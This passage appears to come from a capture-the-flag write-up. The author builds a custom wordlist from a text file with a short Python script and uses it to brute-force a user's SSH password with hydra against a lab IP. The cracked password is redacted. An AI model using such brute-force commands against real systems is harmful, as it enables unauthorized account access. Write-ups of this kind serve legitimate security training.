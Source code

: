 That leaves us the **message-to-simeon.txt** file:

```
Simeon,

Stop messing with your home directory, you are moving files and directories insecurely!
Just make a folder in /opt for your book project...

Also you password is insecure, could you please change it? It is all over the place now!

- Theodore
```

<br>

## Creating a Dictionary

So we have 2 potential usernames, and Simeon's password is insecure by the sound of it. Given the message says his password is all over the place I'm going to create a dictionary of his "book" and use that for the brute forcing instead of using the standard rockyou.

I take one of the text files that was downloaded from the SMB share and make a few quick edits by removing all periods and commas, as well as blank lines, and save the file.

I then write some **VERY** ugly python code that will read the contents of the file and split all words into a list, remove all duplicate values, and then output the results into a file called **wordlist.txt** with one word on each line effectively creating a dictionary of the text file to use in brute forcing.

```python
f = open("lorem.txt", 'r')
data = f.read()
f.close()
wordlist = data.split()
wordlist = list(set(wordlist))
f = open("wordlist.txt", 'w')
for word in wordlist:
    f.write(word + "\n")
f.close()
```

I know I know, the code is terrible, stop laughing! I'm still fairly new at coding.

<br>

## Simeon

I run a brute force with **hydra** using the dictionary I just created and it ends up finding Simeon's password!

`hydra -l simeon -P wordlist.txt 10.10.74.76 -t 4 ssh`

```bash
[22][ssh] host: 10.10.74.76   login: simeon   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
```
